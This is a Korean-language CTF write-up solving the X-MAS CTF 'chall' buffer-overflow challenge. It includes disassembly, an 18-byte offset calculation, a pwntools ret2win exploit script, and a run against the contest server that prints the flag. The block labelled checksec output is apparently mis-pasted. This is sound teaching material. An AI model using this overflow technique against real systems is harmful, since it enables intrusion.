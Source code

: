 풀문제는 chall 이라는 문제입니다

실행파일이 하나 주어지는데 이 실행파일을 실행시키면
<a href="https://drive.google.com/drive/folders/1wEr6WOyw9eP4oXkfhgaIMyXIQGriEoi7">실행파일 다운로드<.a<
```
root@kali:~/pwn/x# ./chall
Helloooooo, do you like to build snowmen?
test
Mhmmm... Boring...
```
입력칸이 열리고 입력을 하면 메세지를 출력합니다. 여기까지 보면 딱 버퍼 오버플로우라는게 감이 오죠.

제가 항상 분석 시작하기 전에 확인하는게 checksec 과 radare2 입니다

checksec 결과
```
root@kali:~/pwn/x# ./chall
Helloooooo, do you like to build snowmen?
test
Mhmmm... Boring...
```
radare2 결과
```
root@kali:~/pwn/x# radare2 chall
[0x00401070]> izz
[Strings]
Num Paddr      Vaddr      Len Size Section  Type  String
000 0x00000034 0x00000034   4  10 () utf16le @8\v@
001 0x000002a8 0x004002a8  27  28 (.interp) ascii /lib64/ld-linux-x86-64.so.2
002 0x00000409 0x00400409   9  10 (.dynstr) ascii libc.so.6
003 0x00000413 0x00400413   4   5 (.dynstr) ascii puts
004 0x00000418 0x00400418   5   6 (.dynstr) ascii stdin
005 0x0000041e 0x0040041e   4   5 (.dynstr) ascii read
006 0x00000423 0x00400423   6   7 (.dynstr) ascii stdout
007 0x0000042a 0x0040042a   7   8 (.dynstr) ascii setvbuf
008 0x00000432 0x00400432   6   7 (.dynstr) ascii strcmp
009 0x00000439 0x00400439  17  18 (.dynstr) ascii __libc_start_main
010 0x0000044b 0x0040044b  11  12 (.dynstr) ascii GLIBC_2.2.5
011 0x00000457 0x00400457  14  15 (.dynstr) ascii __gmon_start__
012 0x000010b5 0x004010b5   5   6 (.text) ascii H=@@@
013 0x00001269 0x00401269  11  12 (.text) ascii \b[]A\A]A^A_
014 0x00002010 0x00402010  30  31 (.rodata) ascii X-MAS{REAL FLAG ON THE SERVER}
015 0x00002030 0x00402030  41  42 (.rodata) ascii Helloooooo, do you like to build snowmen?
016 0x0000205e 0x0040205e  24  25 (.rodata) ascii Me too! Let's build one!
```
radare2 밑에 결과가 더 있었는데 그냥 불필요한 결과들이여서 잘랐어요.
여기서 알 수 있는 정보들은 nx 가 있기때문에 스택에 자체에서는 코드가 실행이 안된다는거죠. 
그리고 radare2 에서 출력된 정보들을 보면 플래그가 포함되있다는 것과 read 가 있는것을 보면 
딱 여기서 read를 이용한 오버플로우로 저 플래그를 출력 가능하다는 것을 알 수 있죠.

저는 막상 바이너리 분석 할때는 binaryninja 라는 디스어셈블리어를 씁니다. 현재는 무료 데모 버젼 
사용중인데 곧있으면 구매할 계획입니다.

main 코드는 전부 넣지 않고 필요한 코드들만 넣을게요.

일단 취약점이 발생하는 구간은
```
lea     rax, [rbp-0xa {var_12}]
mov     edx, 0x64
mov     rsi, rax {var_12}
mov     edi, 0x0
mov     eax, 0x0
call    read
```
아까 예상 햇듯이 read 구간입니다. read 함수는 많이 분석해보면 알 수 있는게 
함수를 부르기 전에 edx 에 버퍼 크기를 넣고 rsi 에는 변수를 넣어줘요.
그럼 여기서 
>read(fd, var_12, 0x64)

대충 이런식으로 변수 호출이 되는 것을 알 수 있죠.
그리고 var_12 는 [rbp-0xa] 에 위치해있는것을 알 수 있고요.
오프셋을 구할려면 gef의 pattern create 과 pattern search 를 쓰면 되긴 하는데
이 바이너리가 크기가 작기도 하고 다른 변수는 선언 안했을 거 같으니 0xa(10h) + 8 = 18가 
오프셋인것을 유추 할 수 있습니다. 여기서 8을 더해준 이유는 64bit는 8이 ret 까지 닿는 거리기 때문이에요
32bit는 4 인걸로 알고 있습니다.
마지막으로 알아야할것은 아까 X-MAS{} 플래그가 위치해 있는 곳을 알아내면 되는데 binaryninja에서
함수들좀 둘러보다 보니 이런 함수가 있네요.

```
sub_401156:
push    rbp {__saved_rbp}
mov     rbp, rsp {__saved_rbp}
mov     edi, 0x402010  {"X-MAS{REAL FLAG ON THE SERVER}"}
call    puts
nop     
pop     rbp {__saved_rbp}
retn     {__return_addr}

```
아이고 웬 떡입니까. 이런 문제는 그냥 거져에요.

이제 공격코드를 생각해보면 

>"A"*18+p64(0x401156) 

대충 이런식으로 넣으면 플래그가 출력될껄 조심히 유추 할 수 있습니다.

파이썬 코드
```
from pwn import *

r = process("./chall")

payload = b"A"*18
payload += p64(0x401156)

print(r.recvline())
r.sendline(payload)
print(r.recvline())



r.interactive()

```

실행 결과
```
root@kali:~/pwn/x# python exploit.py 
[+] Starting program './chall': Done
[ERROR] Neither 'qemu-i386' nor 'qemu-i386-static' are available
b'Helloooooo, do you like to build snowmen?\n'
b'Mhmmm... Boring...\n'
[*] Switching to interactive mode
X-MAS{REAL FLAG ON THE SERVER}
[*] Got EOF while reading in interactive
$  
```
전 그냥 습관이 들어서 코드 마지막에

>r.interactive()

를 넣어준건데 굳이 넣지 않으셔도 실행 잘 됩니다.

그럼이제 서버에 연결 시키면

```
root@kali:~/pwn/x# python exploit.py 
[+] Opening connection to challs.xmas.htsp.ro on port 12006: Done
b'Helloooooo, do you like to build snowmen?\n'
b'Mhmmm... Boring...\n'
[*] Switching to interactive mode
X-MAS{700_much_5n0000w}
[*] Got EOF while reading in interactive
$  
```
사실 이런문제는 난이도가 극하여서 쓸 이유는 없지만 포너블 하지 않으시는 분들도 이정도 문제만 풀줄
아시면 괜찮을 거 같아서 한번 작성해봤습니다.





